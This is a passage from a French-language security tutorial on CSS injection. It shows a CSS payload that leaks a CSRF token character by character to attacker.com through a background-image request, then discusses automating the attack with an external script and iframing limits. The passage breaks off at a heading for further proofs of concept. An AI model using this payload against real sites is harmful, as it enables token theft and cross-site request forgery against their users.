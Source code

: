 {% code overflow="wrap" lineNumbers="true" %}
```html
<style>
  form:has(input[name=csrf-token][value^=a]) {
    background-image:url(https://attacker.com/?leak=a);
  }
</style>
```
{% endcode %}

Cette technique ne fonctionne pas sur FireFox, ni sur IE, car ces navigateurs ne supportent pas cette pseudo-class :

<figure><img src="../../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

### Automatisation de l'attaque

Un script d'automatisation exploitant l'injection CSS afin de récupérer une valeur d'un attribut existe déjà ici : [https://gist.github.com/d0nutptr/928301bde1d2aa761d1632628ee8f24e](https://gist.github.com/d0nutptr/928301bde1d2aa761d1632628ee8f24e). Son utilisation nécessite que la victime accède à la page malicieuse et que l'application vulnérable ciblée soit iframable (entêtes [X-Frame-Options](https://developer.mozilla.org/fr/docs/Web/HTTP/Headers/X-Frame-Options) et [frame-ancestors](https://developer.mozilla.org/fr/docs/Web/HTTP/Headers/Content-Security-Policy/frame-ancestors)).

Le PoC ne possède pas la partie back-end. Il faudra donc le développer, mais il reste toutefois assez simple. De plus, étant donné qu'une seule requête est effectuée par position de caractère, il est possible que l'iframing résulte en une erreur HTTP `414 URI Too Long` et que l'attaque échoue.

Voici plusieurs PoC tentant de résoudre ces problèmes.

#### PoC - Récupération de la valeur d'un attribut d'un élément HTML via les sélecteurs d'attribut CSS
